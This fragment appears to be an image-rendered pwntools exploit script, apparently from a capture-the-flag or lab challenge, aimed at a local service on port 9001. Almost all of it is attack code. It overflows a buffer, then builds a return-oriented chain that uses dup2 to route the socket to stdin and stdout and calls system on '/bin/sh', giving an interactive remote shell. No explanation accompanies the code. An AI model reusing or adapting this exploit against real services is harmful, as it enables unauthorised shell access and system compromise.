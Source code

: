 ```python

p1.close()
p.close()
poprsi =libc_base+0x000000000002601f
poprdi=libc_base+0x0000000000023b6a
p = remote("127.0.0.1",9001)

p.sendline(b"VIEW jomama 1.0\r")

clog("ret",hex(poprdi+1))

pause()
p1=b"A"*(2079+0x30)

 
p1+=p64(poprdi+1) #  ret 
p1+=p64(poprdi) # pop rdi ; ret
p1+=p64(0x6) 
p1+=p64(poprsi) # pop rsi ; ret 
p1+=p64(0x0)
p1+=p64(libc_base+libc.symbols['dup2']) # dup2(6,0);
p1+=p64(poprsi) # pop rsi ; ret 
p1+=p64(1)
p1+=p64(libc_base+libc.symbols['dup2']) # dup2(6,1);
p1+=p64(poprdi) # pop rdi ret 
p1+=p64(libc_base+0x1b45bd) # binsh 
p1+=p64(libc_base+libc.symbols['system']) # system
p1+=b"\r\n\r\n"
p.sendline(p1)

p.interactive()

```

### Output
